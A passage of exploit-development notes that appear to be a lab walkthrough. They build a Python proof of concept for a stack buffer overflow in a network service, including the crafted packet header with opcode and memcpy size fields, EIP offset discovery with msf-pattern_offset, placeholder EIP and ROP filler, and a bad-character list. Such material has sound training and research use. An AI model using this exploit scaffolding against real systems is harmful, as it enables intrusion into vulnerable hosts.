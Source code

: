 	formatString = b"File: %s From: %d To: %d ChunkLoc: %d FileLoc: %d" % (pattern,0,0,0,0)
	buf += formatString
	
	# Checksum
	buf = pack(">i", len(buf)-4) + buf
	...
	
Next, we execute the updated proof of concept and observe the access violation and grab the EIP and use msf to determine the offset
	msf-pattern_offset -q 41326a41

Update the script further:
	import socket
	import sys
	from struct import pack
	
	# psAgentCommand
	buf = bytearray([0x41]*0xC)
	buf += pack("<i", 0x534)  # opcode
	buf += pack("<i", 0x0)    # 1st memcpy: offset
	buf += pack("<i", 0x500)  # 1st memcpy: size field
	buf += pack("<i", 0x0)    # 2nd memcpy: offset
	buf += pack("<i", 0x100)  # 2nd memcpy: size field
	buf += pack("<i", 0x0)    # 3rd memcpy: offset
	buf += pack("<i", 0x100)  # 3rd memcpy: size field
	buf += bytearray([0x41]*0x8)
	
	# psCommandBuffer
	offset = b"A" * 276
	eip = b"B" * 4
	rop = b"C" * (0x400 - 276 - 4)
	
	formatString = b"File: %s From: %d To: %d ChunkLoc: %d FileLoc: %d" % (offset+eip+rop,0,0,0,0)
	buf += formatString
	
	# Checksum
	buf = pack(">i", len(buf)-4) + buf
	...

Also check for bad characters and note them
	 badchars = (
	    b"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d"
	    b"\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a"
	    b"\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27"
	    b"\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34"
	    b"\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41"
	    b"\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e"
	    b"\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b"
	    b"\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68"
	    b"\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75"
	    b"\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82"
	    b"\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f"
	    b"\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c"
	    b"\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9"
	    b"\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6"
	    b"\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3"
	    b"\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
	    b"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd"
	    b"\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea"
	    b"\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7"
	    b"\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")